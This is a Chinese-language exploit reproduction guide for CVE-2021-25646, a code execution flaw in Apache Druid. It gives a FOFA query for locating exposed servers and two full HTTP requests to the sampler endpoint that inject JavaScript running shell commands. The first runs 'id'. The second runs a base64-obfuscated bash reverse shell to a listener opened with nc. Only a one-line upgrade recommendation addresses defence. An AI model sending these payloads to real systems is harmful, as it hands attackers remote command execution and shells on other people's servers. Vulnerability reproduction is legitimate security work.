




# Apache Druid 代码执行漏洞

## 漏洞编号

CVE-2021-25646


## 漏洞描述

Apache Druid是一个开源的分布式数据存储。

Apache Druid包括执行嵌入在各种类型请求中的用户提供的JavaScript代码的能力。这个功能是为了在可信环境下使用，并且默认是禁用的。

然而，在Druid 0.20.0及以前的版本中，攻击者可以通过发送一个恶意请求使Druid用内置引擎执行任意JavaScript代码，而不管服务器配置如何，这将导致代码和命令执行漏洞。


## 影响版本

Apache Druid < 0.20.1


## FOFA语法

```
title="Apache Druid" && status_code="200"
```


## 环境配置

docker

```
docker-compose up -d
docker-compose ps
```




## 漏洞复现

访问192.168.1.15:8888


抓包

```
POST /druid/indexer/v1/sampler HTTP/1.1
Host: 192.168.1.15:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 912

{
    "type":"index",
    "spec":{
        "ioConfig":{
            "type":"index",
            "firehose":{
                "type":"local",
                "baseDir":"/etc",
                "filter":"passwd"
            }
        },
        "dataSchema":{
            "dataSource":"test",
            "parser":{
                "parseSpec":{
                "format":"javascript",
                "timestampSpec":{

                },
                "dimensionsSpec":{

                },
                "function":"function(){var a = new java.util.Scanner(java.lang.Runtime.getRuntime().exec([\"sh\",\"-c\",\"id\"]).getInputStream()).useDelimiter(\"\\A\").next();return {timestamp:123123,test: a}}",
                "":{
                    "enabled":"true"
                }
                }
            }
        }
    },
    "samplerConfig":{
        "numRows":10
    }
}
```

HOST不变，其余替换成当前数据包，右侧查看回显，成功执行id命令




尝试反弹shell

本地开始监听

```
nc -lvp 443
```


修改数据包

```
POST /druid/indexer/v1/sampler HTTP/1.1
Host: 192.168.1.15:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 912

{
    "type":"index",
    "spec":{
        "ioConfig":{
            "type":"index",
            "firehose":{
                "type":"local",
                "baseDir":"/etc",
                "filter":"passwd"
            }
        },
        "dataSchema":{
            "dataSource":"test",
            "parser":{
                "parseSpec":{
                "format":"javascript",
                "timestampSpec":{

                },
                "dimensionsSpec":{

                },
                "function":"function(){var a = new java.util.Scanner(java.lang.Runtime.getRuntime().exec([\"bash\",\"-c\",\"{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMjEvNDQzIDA+JjE=}|{base64,-d}|{bash,-i}\"]).getInputStream()).useDelimiter(\"\\A\").next();return {timestamp:123123,test: a}}",
                "":{
                    "enabled":"true"
                }
                }
            }
        }
    },
    "samplerConfig":{
        "numRows":10
    }
}
```





成功弹回shell


## 修复建议

升级到最新版Apache Druid